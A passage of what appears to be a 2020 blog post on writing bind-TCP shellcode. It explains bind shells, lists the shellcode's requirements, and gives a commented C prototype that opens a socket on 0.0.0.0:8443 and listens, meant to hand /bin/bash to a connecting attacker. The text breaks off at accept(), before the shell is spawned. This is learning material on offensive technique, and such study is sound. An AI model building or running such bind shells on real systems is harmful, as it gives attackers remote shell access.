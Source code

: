 ```yaml
---
layout: single
classes: wide
title:  "Shell Bind TCP Shellcode"
date:   2020-03-08 18:31:04 +0800
categories: jekyll update
---
```


A bind shell is setup on the target host and binds to a specific port to listens for an incoming connection from the attacker host.

## Requirements

- Create Shell_Bind_TCP shellcode
    - Binds to a port
    - Execs Shell on incoming connection
- Port number should be easily configurable

## Prototype

I decided to write the initial application in C to understand how a bind shell works at a higher level. After that i could analyze the code in preparation for writting the actual code in assembly. This prototype will listen on `0.0.0.0` and port `8443`. I tried to make the program as simple as possible without any error check. I've add lot of comments on the C code, hope it should be easy to understand.

{% highlight c linenos %}
#include<stdio.h>
#include<sys/socket.h>
#include<arpa/inet.h>

#define SHELL "/bin/bash"
#define BIND_PORT 8443

int main(int argc, char *argv[])
{
    int i, server_sock, new_sock;
    struct sockaddr_in server_addr;

    // http://man7.org/linux/man-pages/man2/socket.2.html
    // Create the socket:
    // Address Family - AF_INET (IPv4)
    // Type - SOCK_STREAM (TCP protocol)
    // Protocol - 0 (IP protocol)
    server_sock = socket(AF_INET, SOCK_STREAM, 0);

    // http://man7.org/linux/man-pages/man7/ip.7.html
    // Prepare the socketaddr_in structure for bind()
    // AF_INET - IPv4
    // INADDR_ANY - 0.0.0.0
    // BIND_PORT - 8443
    server_addr.sin_family = AF_INET;
    server_addr.sin_addr.s_addr = INADDR_ANY;
    server_addr.sin_port = htons(BIND_PORT);

    // http://man7.org/linux/man-pages/man2/bind.2.html
    // Bind a socket to the ip address and port
    bind(server_sock, (struct sockaddr *)&server_addr, sizeof(server_addr));

    // http://man7.org/linux/man-pages/man2/listen.2.html
    // Listen for incoming connection
    listen(server_sock, 0);

    // http://man7.org/linux/man-pages/man2/accept.2.html
    // Accept the incoming connection